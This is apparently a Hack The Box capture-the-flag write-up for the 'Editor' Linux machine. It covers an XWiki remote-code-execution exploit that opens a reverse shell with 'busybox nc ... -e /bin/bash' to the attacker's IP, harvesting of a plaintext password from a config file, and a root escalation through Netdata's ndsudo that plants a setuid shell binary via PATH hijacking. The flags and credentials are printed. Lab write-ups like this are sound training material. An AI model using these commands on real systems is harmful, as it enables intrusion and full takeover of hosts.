





# Editor

- Link : https://app.hackthebox.com/machines/Editor
- Release date : 02.08.2025
- OS : Linux
- Difficulty : Easy
- Points : 20

## Tools

- nmap
- ssh

## Exploitation

### Finding the first flag

I started to scan the target with nmap to find if any of the 100 most common ports are open, either TCP or UDP.

```bash
nmap 10.10.11.80 -v -sS -sU --top-ports 100
```



We can see that the TCP port 80 (http) and TCP port 8080 (http-proxy) are open. After trying to access the web page on port 80, I found out that it is not responding. So I decided to check the other open port.

When browsing to `http://10.10.11.80:8080`, we find a website running `XWiki`. After scrolling to the bottom of the page, we can see that the current version is `15.10.8` which is vulnerable to remote code execution.



After browsing the web, I found an exploit to get a reverse shell on the target : https://github.com/gunzf0x/CVE-2025-24893/tree/main.

And ran it.

```bash
python3 CVE-2025-24893.py -t 'http://10.10.11.80:8080' -c 'busybox nc 10.10.14.35 1234 -e /bin/bash'
```



After some research, I found a configuration file that contains a password in plain text.

```bash
cat webapps/xwiki/WEB-INF/hibernate.cfg.xml
```



And to know which user to use for the ssh connection, I simply printed the file `/etc/passwd` and choosed to try with the last user of the list : `oliver`.

```bash
cat /etc/passwd
```

It worked, I could connect to the target with user `oliver` and the password `theEd1t0rTeam99`.

```bash
ssh oliver@10.10.11.80
```

```bash
cat user.txt
```

**First flag** : `2311b6cf44220a01278a6a499e490cac`

### Finding the second flag

Now, I can check for vulnerabilities by using `linpeas.sh` on the target.

```bash
scp linpeas.sh oliver@10.10.11.80:/home/oliver
```

```bash
./linpeas.sh
```

After running the command `id`, I can see that I am part of the group `netdata`. So I will probably have to deal with Netdata to escalate my privileges.



After linpeas has finished, I found out that the plugin `ndsudo` is vulnerable to a privilege escalation : https://nvd.nist.gov/vuln/detail/CVE-2024-32019

To exploit this vulnerability, I can create `nvme.c` that will allow me to set my uid to 0 (root) and copy the program on the target.

```bash
nano nvme.c
```

```bash
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

```bash
gcc nvme.c -o nvme
```

```bash
scp nvme oliver@10.10.11.80:/home/oliver
```

Now, on the target I have to export the `PATH` for the `ndsudo` plugin to find my program.

```bash
export PATH=/home/oliver:$PATH
```

Then, I can run the `ndsudo` command to get a root shell.

```bash
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

Finally, I can read the root flag.

```bash
cat /root/root.txt
```

**Second flag** : `686494d2bb72cc50730b353e9bea2edb`